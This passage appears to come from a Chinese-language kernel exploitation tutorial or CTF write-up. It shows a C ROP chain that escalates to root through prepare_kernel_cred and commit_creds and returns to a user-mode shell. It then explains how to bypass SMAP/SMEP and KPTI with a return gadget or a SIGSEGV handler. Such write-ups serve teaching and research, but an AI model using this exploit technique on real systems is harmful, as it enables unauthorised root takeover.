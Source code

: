 ```c
    rop[i++] = prepare_kernel_cred;
    rop[i++] = pop_rdx_ret;
    rop[i++] = 8;
    rop[i++] = cmp_rdx_jne_pop2_ret;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = mov_rdi_rax_jne_pop2_ret;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = commit_creds;

    rop[i++] = swapgs_pop_rbp_ret;
    rop[i++] = 0;
    rop[i++] = iretq_ret;
    rop[i++] = (size_t )shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd , rop , 0x80 + 0x100 );

}
```

### level2 开启 SMAP/SMEP KPTI

> 这个时候因为开启了 KPTI ，在执行内核 ROP 返回到用户态时就会段错误。绕过方法可以使用 swapgs_restore_regs_and_return_to_usermode 中的 gadget 来修改寄存器，从而中规中矩的完成返回，另外，可以另辟蹊径使用 signal 函数来绕过 KPTI

具体原理如下

通过查找下面的信号量表可以发现有个 段错误 信号量 SIGSEGV，那返回到用户态时候不是报段错误吗，我们可以注册一个信号量处理函数来接受这个信号量，在程序报段错误的时候就会去执行它，并切换成用户上下文来调用从而getshell
